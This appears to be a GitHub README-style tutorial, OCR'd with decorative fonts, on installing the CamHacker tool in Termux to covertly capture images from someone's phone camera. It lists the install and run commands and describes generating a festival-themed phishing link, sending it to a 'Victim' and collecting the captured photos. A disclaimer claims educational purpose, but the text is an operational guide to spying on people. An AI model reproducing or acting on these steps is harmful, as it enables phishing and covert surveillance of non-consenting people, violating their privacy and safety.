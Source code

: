 😠😠𝗘𝗱𝘂𝗰𝗮𝘁𝗶𝗼𝗻𝗮𝗹 𝗣𝘂𝗿𝗽𝗼𝘀𝗲 𝗢𝗻𝗹𝘆! 𝗡𝗼 𝙄𝙡𝙡𝙚𝙜𝙖𝙡 𝗨𝘀𝗲! 😠😠. 
I'll not responsible for any illegal/misuse of this tool/program.

-------------------How to H@ck Phone Camera-------------
•Download an App 'Termux'
● ¡ Information: - If you enter commands,
then Termux will say 'Type Y for Yes' Like this.
Then Type 'Y' (CAPITAL).

•Type These Commands In Termux


-----To Install CamHacker Tool In Termux-----
√ termux-setup-storage
√ apt update && apt upgrade
√ pkg install git 
√ apt install python 
√ apt install python 2 
√ apt install python 3 
√ pkg install openssl 
√ git clone https://github.com/KasRoudra/CamHacker  
               ----Installed CamHacker Successfully!---- 
√ cd 
√ cd CamHacker 
√ bash ch.sh 
√ d 
√ (Location of Folder where you Want to Save).
 Open this link to know how to type folder location.
https://raw.githubusercontent.com/Google956/ReS/main/README.md
√ 2 
√ • Enter any festival name.
• 𝚂𝚠𝚒𝚙𝚎 𝙽𝚘𝚝𝚒𝚏𝚒𝚌𝚊𝚝𝚒𝚘𝚗 𝙿𝚊𝚗𝚗𝚎𝚕. 
• 𝙻𝚘𝚗𝚐 𝚙𝚛𝚎𝚜𝚜 𝚝𝚘 𝙷𝚘𝚝𝚜𝚙𝚘𝚝 𝚒𝚌𝚘𝚗. 
• 𝚂𝚝𝚊𝚢 𝚝𝚑𝚎𝚛𝚎 𝚏𝚘𝚛 1-2 𝚖𝚒𝚗𝚞𝚝𝚎𝚜. 
• 🄲🄾🄼🄴 🄱🄰🄲🄺 To Termux App. 
^ You'll See A 🅛🅘🅝🅚 Has Been Generated.
^ Copy It.
^ ¡Send to 𝚅𝚒𝚌𝚝𝚒𝚖! 
▪︎𝙄𝙢𝙥𝙤𝙧𝙩𝙖𝙣𝙩:- 1st. 𝙇𝙞𝙣𝙠(𝙨) 𝙒𝙞𝙡𝙡 𝙒𝙤𝙧𝙠 𝙊𝙣𝙡𝙮 𝙁𝙤𝙧 24 𝙃𝙤𝙪𝙧𝙨. 2nd. 𝘿𝙤𝙣'𝙩 𝙏𝙪𝙧𝙣 𝙊𝙛𝙛 𝙈𝙤𝙗𝙞𝙡𝙚 𝘿𝙖𝙩𝙖 𝙊𝙍 𝙒𝙞𝙛𝙞 𝙐𝙣𝙩𝙞𝙡 𝙇𝙞𝙣𝙠 𝙀𝙭𝙥𝙞𝙧𝙚𝙨/𝙔𝙤𝙪 𝙂𝙤𝙩 𝙖𝙣 𝙄𝙢𝙖𝙜𝙚 --𝗛𝗼𝘄 𝘁𝗼 𝗦𝗲𝗲 𝗜𝗺𝗮𝗴𝗲 𝗼𝗳 𝗬𝗼𝘂𝗿 𝗩𝗶𝗰𝘁𝗶𝗺? --
 + Go to your victim's image folder location 😎You'll find image(s) of your victim😎 + If image(s) captured, 𝙲𝚊𝚖𝙷𝚊𝚌𝚔𝚎𝚛 tool will generates an alert in Termux 𝚊𝚙𝚙. 
